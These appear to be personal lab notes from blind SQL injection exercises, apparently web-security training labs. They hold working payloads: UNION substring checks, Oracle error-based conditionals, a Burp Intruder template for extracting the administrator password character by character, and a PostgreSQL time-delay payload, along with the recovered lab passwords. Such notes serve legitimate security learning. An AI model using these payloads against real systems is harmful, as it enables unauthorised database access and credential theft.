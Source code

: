 `'UNION+SELECT+'a'+from+users+where+username%3d'administrator'+AND+substring(password,1,1)='a'`
using burp intruder
![[Pasted image 20230222214110.png]]
copy intruder results into file and then use 
`cut out -f 3 | tr -d '\n'` to get the password
![[Pasted image 20230222234201.png]]

password:
	hh6kjexkrrilbhooek0r


# Blind SQL injection conditions
using sub query to test target 
target is using oracle
`'||(SELECT '' FROM dual)||'`
![[Pasted image 20230223004709.png]]
checking for users table and user administrator
`||(SELECT '' FROM users where rownum = 1)||'`
when the condition is true it will produce error 
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
![[Pasted image 20230223013118.png]]
checking for password lengh 
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND length(password)>1)||'`
burp intruder
![[Pasted image 20230223013653.png]]

![[Pasted image 20230223014304.png]]
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
![[Pasted image 20230223014331.png]]
![[Pasted image 20230223014401.png]]

password:
	2lx3zoy4uatifdex3hwv


# Blind SQL injection time based

`'||pg_sleep(10)||--'`
![[Pasted image 20230223213857.png]]

# Blind SQL injection with time delays and information retrieval
